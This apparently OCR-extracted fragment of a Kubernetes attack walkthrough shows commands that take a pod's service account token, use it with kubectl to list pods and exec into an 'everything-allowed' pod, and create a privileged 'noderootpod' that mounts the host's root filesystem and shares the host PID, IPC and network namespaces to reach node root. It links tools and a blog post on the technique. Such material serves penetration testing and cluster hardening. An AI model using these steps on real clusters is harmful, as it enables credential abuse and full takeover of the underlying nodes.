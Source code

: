 `/var/run/secrets/kubernetes.io/serviceaccount/token`
export TOKEN=eyJhbGciOiJSUzI1NiIsImtpZCI6Im82QU1WNZXZQZjhPZUt...
$ ./kubectl get po --token=$TOKEN
$ ./kubectl exec -it everything-allowed-exec-pod --token=$TOKEN -- bash
https://github.com/kvaps/kubectl-node-shell
https://raesene.github.io/blog/2019/04/01/The-most-pointless-kubernetes-command-ever/

cat <<EOF | ./kubectl create --token=$TOKEN -f -
```
apiVersion: v1
kind: Pod
metadata:
  name: noderootpod
  labels:
spec:
  hostNetwork: true
  hostPID: true
  hostIPC: true
  containers:
  - name: noderootpod
    image: busybox
    securityContext:
      privileged: true
    volumeMounts:
    - mountPath: /host
      name: noderoot
    command: [ "/bin/sh", "-c", "--" ]
    args: [ "while true; do sleep 30; done;" ]
  volumes:
  - name: noderoot
    hostPath:
      path: /
```EOF
